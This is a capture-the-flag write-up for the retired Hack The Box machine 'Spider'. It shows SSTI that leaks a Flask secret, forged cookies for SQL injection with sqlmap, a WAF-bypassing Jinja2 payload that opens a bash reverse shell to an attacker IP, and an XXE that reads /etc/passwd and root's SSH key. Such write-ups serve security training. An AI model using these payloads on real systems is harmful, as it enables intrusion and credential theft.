


# Spider

This is the write-up for the box Spider that got retired at the 23rd October 2021.
My IP address was 10.10.14.6 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.243    spider.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/spider.nmap 10.10.10.243
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 28:f1:61:28:01:63:29:6d:c5:03:6d:a9:f0:b0:66:61 (RSA)
|   256 3a:15:8c:cc:66:f4:9d:cb:ed:8a:1f:f9:d7:ab:d1:cc (ECDSA)
|_  256 a6:d4:0c:8e:5b:aa:3f:93:74:d6:a8:08:c9:52:39:09 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://spider.htb/
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The website on port 80 forwards to the hostname _spider.htb_, so it has to be added to the _/etc/hosts_ file.

## Checking HTTP (Port 80)

The web service is a custom developed website that sells furniture.
On the left side is a menu with different pages and the button _Admin_ shows _/main_ but forwards to _/login_.

It is possible to register a user on _/register_ and after doing that, we can login with the provided UUID, but there is only one new menu _User Information_ which forwards to _/user_.

When registering a user with special characters, the directory _/user_ resolves in a HTTP status code _500 Internal Server Error_.
By testing all special characters with new users, a _double curly bracket ({{)_ seems to cause this behavior.
This combination of symbols is used in templates and this might be a **Server Side Template Injection (SSTI)** vulnerability.

Testing the vulnerability with a default payload:
```
Username: {{config}}
```

Checking the username in the _/user_ path:
```
(...)
'PRESERVE_CONTEXT_ON_EXCEPTION': None
'SECRET_KEY': 'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942'
'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31)
(...)
```

It works and shows the configuration variables, which contain a secret key that can be used to sign cookies.
These variables also reveal that it is a **Python Flask** application and an [article on HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask#flask-unsign) shows how to do this with the [Flask Unsign](https://pypi.org/project/flask-unsign/) package:
```
flask-unsign --decode --cookie 'eyJjYXJ0X2l0ZW1zIjpbIjEiXSwidX(...)'
```

Signing a new cookie:
```
flask-unsign --sign --cookie "{'cart_items': ['1'], 'uuid': '093aa5a2-a93b-4075-9d1d-a8cb5a573594\''}" --secret Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942
```
```
eyJjYXJ0X2l0ZW1zIjpbIjEiXSwidXVpZCI6IjA5M2FhNWEyLWE5M2ItNDA3NS05ZDFkLWE4Y2I1YTU3MzU5NCcifQ.YxyCeQ.4usdsljBN6JTeCFGZ3ZQO9XPfVc
```

The new cookie has a _single quote (')_ symbol at the end of the _uuid_ to test for **SQL Injection**.
After replacing the old cookie with the new one, the website resolves in a HTTP status code _500 Internal Server Error_.

Using **SQLmap** command from [HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap#eval):
```
sqlmap http://spider.htb/ --eval "from flask_unsign import session as s; session = s.sign({'uuid': session}, secret='Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942')" --cookie="session=*" --dump
```

It dumps the database successfully and in the table _users_ are credentials:
```
+----+--------------------------------------+------------+-----------------+
| id | uuid                                 | name       | password        |
+----+--------------------------------------+------------+-----------------+
| 1  | 129f60ea-30cf-4065-afb9-6be45ad38b73 | chiv       | ch1VW4sHERE7331 |
(...)
```

The credentials work on the web application and it shows an admin panel with different functions:



### Exploiting Admin Panel

There is one message:
```
Fix the /a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal portal!
```

This directory exists and shows a portal to submit support tickets.
When testing for **SSTI** payloads, there is a **Web Application Firewall** that blocks the requests, but the following results in a HTTP status code _500 Internal Server Error_:
```

```

This [article on HackMD](https://hackmd.io/@Chivato/HyWsJ31dI) explains this method of **SSTI**.

To bypass the **WAF**, we need to check which special characters are not allowed:
```
wfuzz -H 'Cookie: session=eyJjYXJ0X2l0ZW1zI(...)' -u http://spider.htb/a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal -d 'contact=FUZZ&message=a' -w /usr/share/seclists/Fuzzing/special-chars.txt
```

Unfortunately most requests resolve in the HTTP status code _429 Too Many Requests_, so the **WAF** blocks that many requests at once and the fuzzing has to be slowed down:
```
wfuzz -H 'Cookie: session=eyJjYXJ0X2l0ZW1zI(...)' -u http://spider.htb/a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal -d 'contact=FUZZ&message=a' -w /usr/share/seclists/Fuzzing/special-chars.txt -t 1 -s .5
```

After letting it run and then hiding all responses with a character length of 1565 with the `--hh 1565` parameter, there are three characters that respond with a different length of characters and thus are blocked by the **WAF**:
```
1607 Ch     "_"
1607 Ch     "."
1607 Ch     "'"
```

We can try a [payload with filter bypass from PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---filter-bypass) and modify it accordingly to bypass the **WAF**:
```
POST /a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal HTTP/1.1
Host: spider.htb
(...)

contact=&message=a
```

The request takes 5 seconds to reply, which means it executed the `sleep 5` command and this command execution can now be used to gain a reverse shell.

Encoding a reverse shell command with **Base64**:
```
echo 'bash -i >& /dev/tcp/10.10.14.6/9001 0>&1' | base64 -w 0
```

Sending the encoded command in the request:
```
POST /a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal HTTP/1.1
(...)

contact={% include request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("echo+YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC42LzkwMDEgMD4mMQo%3d+|+base64+-d+|+bash")|attr("read")()%}&message=a
```

After sending the request, the listener on my IP and port 9001 starts a reverse shell as the user _chiv_.

## Privilege Escalation

After enumerating the box, the command `ss -lnpt` shows that there is port 8080 listening on localhost and there is another web application in the directory _/var/www/game_ which is owned by root.

By using the **SSH command line**, the port can be forwarded to our local client:
```
ssh> -L 8000:127.0.0.1:8080
Forwarding port.
```

It can now be reached on our local client on port 8000 and it shows a login form:



The login form does not care about a correct username and forwards to _/site_ with anything that is sent.

Decoding the provided cookie:
```
flask-unsign --decode --cookie '.eJxFjr1ugzAYRV-l8twBVDqE0bINobERBvtLv(...)'
```
```
{'lxml': b'PCEtLSBBUEkgVmVyc2lvbiAxLjAuMCAtLT4KPHJvb3Q+CiAgICA8ZGF0YT4KICAgICAgICA8dXNlcm5hbWU+YW55dGhpbmc8L3VzZXJuYW1lPgogICAgICAgIDxpc19hZG1pbj4wPC9pc19hZG1pbj4KICAgIDwvZGF0YT4KPC9yb290Pg==', 'points': 0}
```

Decoding the Base64 string:
```
echo 'PCEtLSBBUEkgVmVyc2lvbiAxLjAuM(...)' | base64 -d
```
```xml
<!-- API Version 1.0.0 -->
<root>
    <data>
        <username>anything</username>
        <is_admin>0</is_admin>
    </data>
</root>
```

When checking the HTTP request with **Burpsuite**, the data that is sent contains the _username_ and _version_ parameter:
```
POST /login HTTP/1.1
(...)

username=%26admin%3b&version=InjectionTest
```

After sending the modified request and checking the new cookie, it is confirmed that we control the data in the XML structure and can exploit an **XML External Entity (XXE)** vulnerability:
```
echo 'PCEtLSBBUEkgVmVyc2lvbiBJbmpl(...)' | base64 -d
```
```xml
<!-- API Version InjectionTest -->
<root>
    <data>
        <username>&admin;</username>
        <is_admin>0</is_admin>
    </data>
</root>
```

Using a [payload from PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#classic-xxe) to retrieve the _/etc/passwd_ file:
```
POST /login HTTP/1.1
(...)

username=%26admin%3B&version=1.0.0--><!DOCTYPE root [<!ENTITY admin SYSTEM 'file:///etc/passwd'>]><!--
```

It displays the contents of the file, so it can be used to retrieve the SSH key of root:
```
username=%26admin%3B&version=1.0.0--><!DOCTYPE root [<!ENTITY admin SYSTEM 'file:///root/.ssh/id_rsa'>]><!--
```

After copying the contents into a file, it is possible to login via SSH as root!
```
ssh -i root.key root@10.10.10.243
```
